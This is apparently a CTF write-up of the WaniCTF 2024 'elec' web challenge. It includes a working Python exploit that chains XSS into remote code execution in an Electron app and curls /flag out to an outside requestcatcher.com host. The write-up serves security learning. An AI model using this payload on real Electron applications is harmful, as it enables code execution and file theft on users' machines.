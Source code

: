 ```yaml
---
layout: post
title:  "elec - wanictf 2024"
date:   2024-06-23 00:00:00 -0400
---
```


https://ctftime.org/event/2377

Could not solve during the ctf but was very close.

# elec (web)

This is a classic xss -> report challenge but it uses a electron app instead of a puppeteer script.

## Solution

The xss happens on `/article/:id` and there are some limits to it by the CSP
```go
Content-Security-Policy", "default-src 'self'; script-src 'self' https://cdn.jsdelivr.net https://esm.sh 'unsafe-inline'; style-src 'self' https://cdn.jsdelivr.net; object-src 'none'; base-uri 'none'; frame-ancestors 'none'"
```

```javascript
const win = new BrowserWindow({
	width: 800,
	height: 600,
	webPreferences: {
		preload: path.join(__dirname, "preload.js"),
		contextIsolation: false,
		sandbox: false,
	},
});
```
electron window options:
- no nodeIntegration so we cant just do require('child_process')
- contextIsolation so if we set something in preload it will show in renderer
- more details:
    - https://www.electronjs.org/docs/latest/

```javascript
window.addEventListener("load", async () => {
	const versions = {
		app: "0.0.1",
		node: process.versions.node,
		chrome: process.versions.chrome,
		electron: process.versions.electron,
	};
	console.log(versions);

	const cp = spawn("uname", ["-a"]);
	console.log(cp);
	const kernelInfo = await loadStream(cp.stdout);

	document.getElementById("app-version").textContent = versions.app;
	document.getElementById("node-version").textContent = versions.node;
	document.getElementById("chrome-version").textContent = versions.chrome;
	document.getElementById("electron-version").textContent = versions.electron;
	document.getElementById("kernel-info").textContent = kernelInfo.toString();
	document.getElementById("admin-footer").classList.remove("d-none");
});
```
this is the preload script, the main vulnerability in this is that stuff can be overwritten from the xss. so if we set `document.getElementById = alert` an alert will popup.
there are 2 problems, the flag is in a file and `connect-src 'self'` so we need an rce.

looking at interesting stuff to overwrite, we see `console.log` being called with an instance of `ChildProcess`
so we overwrite that and call its constructor and just curl the flag

```python
#!/usr/bin/env python3
import requests
import base64
import re
import urllib

REMOTE = "http://0.0.0.0:1323/"

payload = """
<script//type="module">
var console = (function(oldCons){
    return {
        log: function(text){
            if (text.spawnfile) {
                const cp2 = new text.constructor();
                cp2.spawn({ shell: true, file: 'curl', args: ['curl', '-F', 'flag=@/flag', 'https://lalalalalallalala.requestcatcher.com/'] });
                return oldCons.log(text);
            }

            oldCons.log(text);
        },
    };
}(window.console));

window.parent.console = console;
</script>
""".replace("\n", "").replace(" ", "&nbsp;").replace("<", "&lt;").replace(">", "&gt;")
payload = base64.b64encode(payload.encode()).decode()

body = f"""<img src=x onerror='javascript:a="{payload}";document.getElementById("content").innerHTML="<iframe srcdoc="+atob(a)+"></iframe>"'>"""
print(body)

res = requests.post(REMOTE, data={
        'title':body,
        'content':body
    })

try:
    url = re.search('action="(.+?)"', res.text).group(1)
    print(f"{REMOTE+url.replace('/report','article')}")
except Exception as e:
    print("error")

res = requests.post(REMOTE + url)
```

## Flag
`FLAG{r3m07e_c0d3_execu710n_v1a_3l3c7r0n}`

shafouz 2024/06/23
